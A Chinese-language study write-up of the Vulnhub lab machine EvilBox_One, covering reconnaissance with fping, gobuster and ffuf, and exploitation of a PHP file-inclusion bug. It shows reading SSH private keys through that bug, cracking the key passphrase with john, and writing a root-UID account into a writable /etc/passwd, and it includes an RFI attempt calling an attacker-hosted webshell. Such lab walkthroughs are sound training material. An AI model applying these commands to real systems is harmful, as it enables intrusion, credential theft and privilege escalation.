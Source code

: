```yaml
---
title: Chapter6_Easy_EvilBox_One
categories:
- Network_Security
- Vulnhub
- Chapter6
tags:
- Network_Security
- Vulnhub
date: 2024-02-02 14:20:38
---
```


# EvilBox_One 学习记录

## 1. 粗略学习记录

### 1.1 扫描打点 - PHP LFI

1. kali 自带的 fping 扫描
    `fping -gaq ip/cidr # g--generate a--alive q--quiet`
    ![image-20240201120011124](Easy_EvilBox.assets/image-20240201120011124.png)

2. 扫描端口：
    ![image-20240201120047911](Easy_EvilBox.assets/image-20240201120047911.png)

3. 路径爆破：
    ![image-20240201131818180](Easy_EvilBox.assets/image-20240201131818180.png)
    尝试新工具：gobuster。
    gobuster 除了路径爆破，还会探测 CDN。其是用 go 语言编写的。
    `gobuster dir -u http://192.168.0.105 -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -x txt,php,html,jsp`
    ![image-20240201133031374](Easy_EvilBox.assets/image-20240201133031374.png)

4. 访问一下，robots.txt 给了一串不明意义的字符串：`H4x0r`。/secret 访问是空白。
    ![image-20240201132104426](Easy_EvilBox.assets/image-20240201132104426.png)

5. /secret 是新的路径，那么更换目标，再在 /secret 下进行目录爆破：
    ![image-20240201133327362](Easy_EvilBox.assets/image-20240201133327362.png)

6. 访问 evil.php，结果还是空白。这时就要考虑进行参数爆破。除了 Burpsuite，这里使用 ffuf：
    `ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:param -w value.txt:value -u http://192.168.0.105/secret/evil.php?param=value -fs 0`，其中 value.txt 自己编辑，由常见的字符和符号组成。`-fs 0` 表示过滤掉页面为空的结果。是用的是 Burpsuite 的字典。
    ![image-20240201140607609](Easy_EvilBox.assets/image-20240201140607609.png)
    结果没有结果。
    考虑是 PHP，往文件包含的思路靠拢，修改 value。
    `ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:param -u http://192.168.0.105/secret/evil.php?param=../index.html -fs 0`
    结果是有结果了：
    ![image-20240201141210002](Easy_EvilBox.assets/image-20240201141210002.png)

7. 猜测是有文件包含漏洞，使用伪协议来读取 evil.php 的内容：
    ![image-20240201141536379](Easy_EvilBox.assets/image-20240201141536379.png)
    解码后为：

    ```php
    <?php
        $filename = $_GET['command'];
        include($filename);
    ?>
    ```

8. 考虑 RFI 远程文件包含，在 kali 的 `/var/www/html` 下新建一句话，然后开启 apache2 服务：`systemctl start apache2`。访问：`evil.php?command=http://192.168.0.2/webshell.php?webshell=ls`。结果没有返回。因此目标可能只有 LFI 本地文件包含。

9. 试了一下 `input`，发现不能执行 PHP 代码。说明 `allow_url_include = false`。同样的 `filter` 也写入失败。

### 1.2 拿到 Shell - SSH 的公钥认证体系

1. 查看账户文件，有用户 mowree，使用 `ssh mowree@192.168.0.105 -v` 查看其可以登录的方式，结果有新发现：
    ![image-20240201145439517](Easy_EvilBox.assets/image-20240201145439517.png)
    密码用 H4x0r 不行。这里看出有公钥的认证方式，因此思路就是：通过 SSH 公钥登录的用户，其主目录的 `.ssh/authorized` 中一般会有登录者的公钥。尝试访问：
    `command=/home/mowree/.ssh/authorized_keys`。结果如下：
    `ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAXfEfC22Bpq40UDZ8QXeuQa6EVJPmW6BjB4Ud/knShqQ86qCUatKaNlMfdpzKaagEBtlVUYwit68VH5xHV/QIcAzWi+FNw0SB2KTYvS514pkYj2mqrONdu1LQLvgXIqbmV7MPyE2AsGoQrOftpLKLJ8JToaIUCgYsVPHvs9Jy3fka+qLRHb0HjekPOuMiq19OeBeuGViaqILY+w9h19ebZelN8fJKW3mX4mkpM7eH4C46J0cmbK3ztkZuQ9e8Z14yAhcehde+sEHFKVcPS0WkHl61aTQoH/XTky8dHatCUucUATnwjDvUMgrVZ5cTjr4Q4YSvSRSIgpDP2lNNs1B7 mowree@EvilBoxOne`

2. 根据 SSH 公钥认证的流程，需要一台电脑创建 RSA 的公钥和私钥，其中公钥由服务器保管，私钥分发给授权的用户。如果 SSH 配对的公私钥是服务器创建的，那么其默认的私钥保存地址就是 `.ssh/id_rsa`，而公钥是 `.ssh/id_rsa.pub`。尝试访问 `.ssh/id_rsa`，结果如下：
    ![image-20240201151805457](Easy_EvilBox.assets/image-20240201151805457.png)

3. 复制下来，先赋予权限：
    `chmod 600`。
    登录：
    `ssh mowree@192.168.0.105 -i id_rsa`

4. 然后还需要 passphrase，即私钥的密码。这个无法获取，因此考虑爆破：
    ```bash
    cp /usr/share/wordlists/rockyou.txt.gz . # 用这个密码文件来爆破
    gunzip rockyou.txt.gz # 解压
    cd /usr/share/john
    ./ssh2john.py /home/hacker/id_rsa > /home/hacker/桌面/hash # 将密钥文件进行处理，变成可以被 john 工具使用的文件。
    john /home/hacker/桌面/hash --wordlist=/home/hacker/桌面/rockyou.txt
    ```

    成功破解：
    ![image-20240201153517595](Easy_EvilBox.assets/image-20240201153517595.png)
    尝试登录，成功！

5. 拿到第一个 flag：
    ![image-20240201154346570](Easy_EvilBox.assets/image-20240201154346570.png)

### 1.3 提权 - 文件配置不当

1. 提权，常见的方法都不行。最终考虑一些可编辑的脚本文件，其执行时以 root 权限执行：
    ```bash
    find / -writable 2>/dev/null
    find / -writable 2>/dev/null | grep -v proc # 结果过滤
    ```

    最终发现异常：
    ![image-20240201160102054](Easy_EvilBox.assets/image-20240201160102054.png)
    ![image-20240201160224501](Easy_EvilBox.assets/image-20240201160224501.png)

2. 那最终目标就是操作 passwd 文件。一个方向就是修改 passwd，将 root 的密码占位符 `x` 换成自己生成的加盐密码，或者新建一个属于 root 组的账号。
    ![image-20240201161007238](Easy_EvilBox.assets/image-20240201161007238.png)

    ![image-20240201161858594](Easy_EvilBox.assets/image-20240201161858594.png)然后将这个密文复制并覆盖，这时影子文件中的密码将会失效。

3. 获取 flag：
    ![image-20240201161713975](Easy_EvilBox.assets/image-20240201161713975.png)

4. 也可以通过建立账户来实现：
    `hacker:$1$ZY4xtyhY$aSKuj8Y8nbqvlYToyAsw9/:0:0:root:/root:/bin/bash` 写入。
    然后登录 hacker 即可。

## 2. 要点总结

1. 新主机发现工具 fping。
2. 新路径爆破工具 gobuster。
3. “子路径爆破”的思想。
4. 参数爆破工具 ffuf 与“参数爆破”的思想
5. SSH 公钥体系的渗透，SSH 公钥体系认证流程，私钥密码爆破。
6. /etc/passwd 文件的属性。
